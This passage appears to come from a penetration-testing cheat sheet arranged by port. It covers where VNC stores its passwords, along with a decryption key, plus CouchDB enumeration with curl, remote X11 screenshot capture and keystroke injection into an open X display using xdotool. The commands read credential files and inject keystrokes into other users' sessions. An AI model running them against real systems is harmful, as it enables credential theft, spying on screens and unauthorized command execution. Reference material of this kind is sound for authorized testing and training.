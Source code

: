```
Registry Locations
    \HKEY_CURRENT_USER\Software\ORL\WinVNC3
    \HKEY_USERS\.DEFAULT\Software\ORL\WinVNC3
Decryption Key
    0x238210763578887
```
Default location where the VNC password is stored
```
~/.vnc/passwd
```
### Configuration Files
* .vnc
* /etc/vnc/config
* $HOME/.vnc/config
* /etc/sysconfig/vncservers
* /etc/vnc.conf



## 5984 - CouchDB
### Enumeration
```bash
curl http://<IP>:5984/
curl -X GET http://<IP>:5984/_all_dbs
curl -X GET http://user:password@<IP>:5984/_all_dbs
curl -X GET http://<IP>:5984/{dbname}/_all_docs
curl -X GET http://<IP>:5984/{dbname}/{id}
```



## 6000^ - X11
### Enumeration
```bash
nmap -p 6000 --script=x11-access <IP>> -nvvv
```
```
use auxiliary/scanner/x11/open_x11
```
### Screenshots
```bash
xwd -display <IP>:0 -root -out screenshot.xwd
```
If image is black, kill screensaver:
```bash
xwininfo -root -children -display <IP>>:0
```
```bash
xkill -display 192.168.X.209:0 -id 0x3200001 # 0x3200001 = "gnome-screensaver"
```
### Keyboard Command Injection
#### Manual
```bash
export DISPLAY=<IP>:0
```
```bash
xdotool type "id"
```
```bash
xdotool key KP_Enter
```
```bash
xdotool type "clear && history () bash && history"
```